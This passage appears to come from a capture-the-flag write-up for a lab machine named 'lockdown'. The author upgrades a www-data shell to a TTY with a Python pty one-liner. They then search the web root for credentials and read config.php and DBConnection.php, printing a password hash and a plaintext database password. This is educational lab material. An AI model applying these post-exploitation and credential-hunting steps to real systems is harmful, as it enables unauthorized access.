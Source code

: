 The firt thing I did, was spawning a TTY shell using a python on3-liner:

~~~
sh-4.4$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@lockdown:/$
~~~

### www-data -> cyrus

Now we need to move lateraly. If you list `/home`, you'll see two user: `cyrus` and `maxine`. I started enumerating the machine manually. I checked the web directory and `/var/www/html/config.php` looked interesting. Let's read the content:

~~~php
<?php
session_start();
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');
if(!defined('base_url')) define('base_url','http://contacttracer.thm/');
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
require_once('classes/DBConnection.php');       <------------
require_once('classes/SystemSettings.php');
$db = new DBConnection;
$conn = $db->conn;

function redirect($url=''){
	if(!empty($url))
	echo '<script>location.href="'.base_url .$url.'"</script>';
}
function validate_image($file){
	if(!empty($file)){
		if(@getimagesize(base_url.$file)){
			return base_url.$file;
		}else{
			return base_url.'dist/img/no-image-available.png';
		}
	}else{
		return base_url.'dist/img/no-image-available.png';
	}
}
?>
~~~

unfortunately, there are no creds, but there is an interesting path: `classes/DBConnection.php`. Let's see if we can find anything there:

~~~php
<?php
class DBConnection{

    private $host = 'localhost';
    private $username = 'cts';
    private $password = 'YOUMKtIXoRjFgMqDJ3WR799tvq2UdNWE';
    private $database = 'cts_db';
    
[REDACTED]

}
?>
~~~
